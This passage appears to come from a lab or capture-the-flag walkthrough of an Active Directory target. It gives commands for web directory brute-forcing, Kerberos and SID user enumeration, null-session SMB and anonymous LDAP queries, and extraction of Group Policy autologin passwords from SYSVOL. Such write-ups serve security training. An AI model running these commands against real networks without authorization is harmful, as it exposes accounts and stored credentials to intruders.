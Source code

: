 ![image.png](image%206.png)

```bash
gobuster dir -u http://hokkaido-aerospace.com/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .asp,aspx
```

![image.png](image%207.png)

## AD Initial Enumeration

### User Enumeration

Unauthenticated

```bash
./kerbrute_linux_amd64 userenum -d hokkaido-aerospace.com --dc $IP /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 70
```

![image.png](image%208.png)

```bash
impacket-lookupsid 'hokkaido-aerospace.com/'@hokkaido-aerospace.com -no-pass
```

![image.png](image%209.png)

### User Description Fields

```bash
sudo nxc smb $IP -u ''  -p '' --users
```

![image.png](image%2010.png)

### Port 389/3268

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=hokkaido-aerospace,DC=com"
```

![image.png](image%2011.png)

## Initial Attack Vectors

### **Passwords in Group Policy SYSVOL share**

```bash
sudo crackmapexec smb <dc-ip> -u '' -p '' -M gpp_autologin
```

![image.png](image%2012.png)
